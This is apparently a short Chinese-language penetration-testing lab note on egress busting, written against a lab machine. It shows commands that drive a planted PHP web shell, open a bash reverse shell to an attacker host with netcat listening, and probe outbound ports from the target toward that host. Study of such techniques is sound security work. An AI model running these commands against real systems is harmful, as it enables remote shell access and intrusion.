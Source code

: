 ![image](images/ryNmraRUp.png)


### Egress Busting

~~在靶機端有植入reverse shell的狀況下~~

~~curl "192.168.0.24/shell.php?cmd=id"~~
~~調整~~
~~curl -G 192.168.0.24/shell.php --data-urlencode "cmd=id"~~

~~new console:
nc -nvlp8888~~

~~回parrot
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"~~

exploit後如果發現shell沒有彈回來，檢測防火牆是否存在
```
sudo tcpdump -ni eht0 tcp[13]==2
```
* tcp[13]==2 看的是SYN封包

靶機傳輸tcp封包
```
for port in {200..210};do(echo > /dev/tcp/192.168.0.18/$port); done
```
![image](images/B1NI_CCU6.png)
